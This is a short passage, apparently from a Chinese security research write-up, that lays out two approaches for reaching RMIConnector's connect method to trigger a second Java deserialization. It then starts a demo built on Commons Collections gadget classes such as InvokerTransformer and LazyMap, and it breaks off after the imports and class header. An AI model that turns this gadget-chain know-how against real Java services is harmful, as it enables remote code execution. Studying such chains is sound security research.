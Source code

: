 [![](assets/1709112106-a37656f3ae5a29ca38cf16e5eb0088d6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227195941-b097b5a2-d567-1.png)

那么现在就 2 个思路

1.  谁的方法调用了`connect`​方法并且传入的值可控，然后一直往上跟 readobject 或者 tostring 或者 getter 方法
2.  谁的反射可控，直接进行反射调用

那么现在先写一个本地的直接反射调用的 demo 来触发二次反序列化

```bash
package RMIconnector;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantFactory;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.management.remote.JMXServiceURL;
import javax.management.remote.rmi.RMIConnector;
import java.io.*;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.HashMap;
import java.util.Map;

public class CC6_t {


```
